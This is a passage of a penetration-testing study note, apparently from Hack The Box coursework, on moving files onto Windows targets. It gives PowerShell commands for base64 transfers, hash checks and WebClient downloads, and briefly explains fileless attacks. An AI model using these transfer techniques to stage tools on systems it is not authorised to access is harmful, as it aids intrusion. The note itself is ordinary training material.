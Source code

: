 # File Transfers
## @Author : M3tr1c_r00t
### Windows File Transfer Methods
#### Fileless Threats
Fileless attacks are a type of cyber attack that does not rely on malware being installed on a victim's computer as a file. Instead, fileless attacks exploit vulnerabilities in legitimate software already running on the victim's computer or use tools built into the operating system to carry out malicious actions.

In fileless attacks, the attacker may use techniques such as injecting malicious code into a legitimate process, modifying system configurations or settings, or using scripts or PowerShell to execute malicious commands. Because fileless attacks do not require the installation of malware on a victim's computer, they can be more difficult to detect and prevent than traditional malware-based attacks.

#### Methods for file transfer
#### Powershell Base64 Encode and Decode
We can try and encode our code into base64, transfer this encoding to the target system and then decode it on the target system.

Fully base64 encoding a file;
```
cat file_name | base64 -w 0;echo
```
Copy the resultant content to a powershell terminal and we can decode it.
```
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\FILE_NAME", [Convert]::FromBase64String("YOUR_BASE_64_STRING"))
```
We can confirm if the file is indeed the same as ours by checking the md5 hash
__Linux;__
```
md5sum FILE_NAME
```
__Windows;__
```
Get-FileHash C:\Users\Public\FILE_NAME -Algorithm md5
```

Note that this may not always be possible as the Windows command line has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

![image](https://user-images.githubusercontent.com/99975622/222534126-af8b9962-f253-4b19-b9e8-7f59ff00bb9d.png)

#### Powershell DownloadFile Method(File Download)
__DownloadFile__
```
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
__Download File Async__
```
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
